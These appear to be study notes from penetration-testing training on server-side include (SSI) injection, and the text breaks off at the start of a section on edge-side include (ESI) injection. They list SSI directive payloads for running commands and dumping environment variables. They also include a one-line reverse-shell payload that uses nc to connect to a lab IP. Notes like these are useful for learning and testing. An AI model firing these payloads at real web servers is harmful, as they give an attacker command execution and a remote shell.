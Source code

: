  * used by web apps to create dynamic content on HTML pages; evaluates SSI directives
  * extensions such as ```.shtml```, ```.shtm``` or ```.stm``` indicate use of SSI
  * we can submit payloads (SSI directives) through input fields to check for SSI injection
  * examples of SSI directives:

    ```html
    // Date
    <!--#echo var="DATE_LOCAL" -->

    // Modification date of a file
    <!--#flastmod file="index.html" -->

    // CGI Program results
    <!--#include virtual="/cgi-bin/counter.pl" -->

    // Including a footer
    <!--#include virtual="/footer.html" -->

    // Executing commands
    <!--#exec cmd="ls" -->

    // Setting variables
    <!--#set var="name" value="Rich" -->

    // Including virtual files (same directory)
    <!--#include virtual="file_to_include.html" -->

    // Including files (same directory)
    <!--#include file="file_to_include.html" -->

    // Print all variables
    <!--#printenv -->
    ```

* SSI injection exploitation example:

  * In the input field for the given webpage, we can try to identify if it is vulnerable to SSI injection by submitting SSI directives as payloads

  * The SSI directives work and we get the output in the page

  * We can also try SSI directive payloads for reverse shells:

    ```html
    <!--#exec cmd="mkfifo /tmp/foo;nc 10.10.15.160 4444 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
    ```

## ESI Injection

* Edge Side Includes (ESI):

  * XML-based markup language
  * enables heavy caching of web content; allows dynamic web content assembly
  * ESI tags used to instruct a HTTP surrogate (reverse-proxy, caching server, etc.) to fetch more info for webpage with an already cached template
  * ESI injection occurs when attacker manages to reflect malicious ESI tags in HTTP response
  * root cause of vuln - HTTP surrogates can't validate the ESI tag origin
  * some useful ESI tags:
